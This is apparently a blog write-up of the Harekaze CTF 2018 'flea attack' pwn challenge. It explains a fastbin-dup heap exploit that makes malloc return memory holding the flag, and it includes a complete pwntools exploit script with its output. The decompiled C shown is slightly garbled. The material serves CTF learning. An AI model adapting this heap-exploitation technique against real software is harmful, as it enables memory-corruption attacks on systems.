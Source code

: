 ```yaml
---
layout: post
title: "flea attack"
---
```

# flea attack - harekaze ctf 2018 

nc problem.harekaze.com 20175

file: [flea_attack](https://problem.harekaze.com/3bac5c3a7bbcd9b58013de928a4e7ee5b7b6b4c59b0bb8ebbb5def90a7364f8b/flea_attack/flea_attack.elf)

(Pwn, 200 points)

i was unable to finish this problem during the ctf but got pretty close. i read a solution afterwards and ensured that i understood what i did wrong. here's my notes!

i started by checking the binary mitigations in place:

```
[*] '/home/vagrant/harekaze/flea-attack/flea_attack.elf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
```

after running the binary i could tell this was likely a heap related memory corruption vulnerability since it was using malloc to store our name:

```
puts("1. Add name"1. Add name
)                                                                                                   = 12
puts("2. Delete name"2. Delete name
)                                                                                                = 15
puts("3. Exit"3. Exit
)                                                                                                       = 8
printf("> "> )                                                                                                          = 2
fgets(1
"1\n", 11, 0x7f46a20828e0)                                                                                      = 0x7ffe9ed3de1c
atoi(0x7ffe9ed3de1c, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 1
printf("Size: "Size: )                                                                                                      = 6
fgets(16
"16\n", 11, 0x7f46a20828e0)                                                                                     = 0x7ffe9ed3dddc
atoi(0x7ffe9ed3dddc, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 16
malloc(16)                                                                                                            = 0x900250
printf("Name: "Name: )                                                                                                      = 6
read(0fizbaz
, "fizbaz\n", 16)
```

likely a use after free of some kind since we can also free our name with the delete functionality. i could also tell that the address of our flag in memory is given to us:

```
\__libc_start_main(0x201430, 1, 0x7fff61b66a48, 0x201560 <unfinished ...>
setvbuf(0x7fcc663d08e0, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1620, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1540, 0, 2, 0)                                                    = 0
fopen("/home/flea_attack/flag", "r")                                                = 0xe6d010
fgets("flag{flea-attack}\n", 48, 0xe6d010)                                          = 0x204080
printf("Some comment this note:"Some comment this note:)                                                   = 23
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```

since there was no obvious way to redirect execution simply with the name allocations i decided to look into other options, i've been playing with the examples in team shellphish's [how2heap](https://github.com/shellphish/how2heap) repository lately and found [one](https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c) that was directly applicable to this challenge; 'fastbin dup into stack' which allows one to trick malloc into returning a chunk of memory in segments other than the heap.

i was able to get this working in the flea\_attack challenge by adding 3 names of the same size (call them a, b, and c) delete name a, followed by b, followed by a again, add name a again with the same size and the name <address of flag - some offset>, add name d, e of the same size and finally name f of the same size but this time with enough characters to fill our offset from <address of flag>. the only caveat is i needed to provide the fake chunk size in the debugger. i couldn't figure out how to do this with the pwn script. my idea was that i could provide the fake size with the initial prompt which asks the user for a comment. this much i was right about however i couldn't figure out how to provide a fake chunk size that malloc trusted. i kept getting errors like ```*** Error in './flea_attack.elf': malloc(): memory corruption (fast): 0x000000000184e240```. in gdb when using a fake size of 0x20 and a chunk size of 16 i was able to get the flag. the part i couldn't figure out in time was how to bypass the appending of the newline character in our comment which i was using to write our fake chunk size.looking back it was such a silly thing to get stuck on!! here's the code responsible for this functionality decompiled in hexrays:

```c
unsigned int original_fgets(char *buf, unsigned int sz) {
    char *result;
    unsigned int i;
    for (i = 0; ++i) {
        result = i;
        if (i >= sz - 1) break;
        read(0, buf+i; 1);
        if ( !( *(buf+i) ) ) {
            *(buf + i) = '\n';
LABEL_7:
            result = buf;
            *(buf + 1 + i) = 0;
            return result;
        }
        if ( *(buf + i) == '\n' ) {
            goto LABEL_7;
        }
    }
}
```

it looks like we had an 'fgets' written just for us! looking at this now all we had to do was figure out that if we wrote our own newline in our input then it would leave the bytes in our buffer as they are (null bytes) effectively allowing us to write 0x00000020 or whatever other size we'd like to our fake size and set up the chunk so that the fake size lands right at the end of our input.

here's my final solution:

```python
#!/usr/bin/python

from pwn import *

host = 'problem.harekaze.com'
port = 20175

REMOTE = True
#REMOTE = False
DEBUG = False
#DEBUG = True

def getpipe():
    if REMOTE:
        return remote(host,port)
    return process('./flea_attack.elf')

def add_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    r.recvuntil('ddr: ')
    return r.recvline()

def flag_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    log.success(r.recvuntil('> '))

def delete_name(addr):
    global r
    r.recvuntil('> ')
    r.sendline('2')
    r.recvuntil('ddr: ')
    r.sendline('{}'.format(addr))

gdbscript = '''
b original_fgets
'''

r = getpipe()

if DEBUG:
    gdb.attach(r, gdbscript)

r.recvuntil('note:')

r.sendline('a' * 94 + p8(0x71))

sz = 96

a = add_name('aaaaaaa', sz)
b = add_name('bbbbbbb', sz)
c = add_name('ccccccc', sz)

delete_name(a)
delete_name(b)
delete_name(a)

flag = 0x204056

log.info('flag is at: {}'.format(hex(flag)))

a = add_name(p64(flag), sz)

add_name('AAAA', sz)
add_name('BBBB', sz)

flag_name('A'*25, sz)

'''
[+] Opening connection to problem.harekaze.com on port 20175: Done
[*] flag is at: 0x204056
[+] Done!
    Name: AAAAAAAAAAAAAAAAAAAAAAAAA
    HarekazeCTF{5m41l_smal1_f1ea_c0n7rol_7h3_w0rld}
    Addr: 204066
    1. Add name
    2. Delete name
    3. Exit
    > 
[*] Closed connection to problem.harekaze.com port 20175
'''
```
